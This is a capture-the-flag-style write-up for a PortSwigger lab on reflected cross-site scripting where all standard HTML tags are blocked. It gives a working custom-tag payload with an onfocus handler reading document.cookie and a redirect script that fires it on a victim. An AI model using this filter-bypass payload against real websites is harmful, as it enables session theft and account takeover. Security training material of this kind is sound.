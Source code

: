 # Reflected XSS into HTML context with all tags blocked except custom ones

## Description

Link: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked

>![](imgs/20210623-175539.png)

## Writeup

The value of the `search` parameter is reflected in the response. So, let's test whether the input is not properly sanitized/escapade.

All tags are blacklisted except the custom ones. We can try to inject our own tag and trigger the payload on the `onfocus` event. 

The custom tag and attributes are: `<exploit id=x onfocus=alert(document.cookie); tabindex=1>`.



The content of the file visited by the user to trigger our XSS is:
``` javascript
<script>
location = "https://acca1f861ec66b0381e0022700040079.web-security-academy.net/?search=<exploit+id%3dx+onfocus%3dalert(document.cookie);+tabindex%3d1>#x";
</script>
```

The user will be redirected to the vulnerable page and the `#x` will  make the page focus on our custom tag, triggering the alert pop-up.



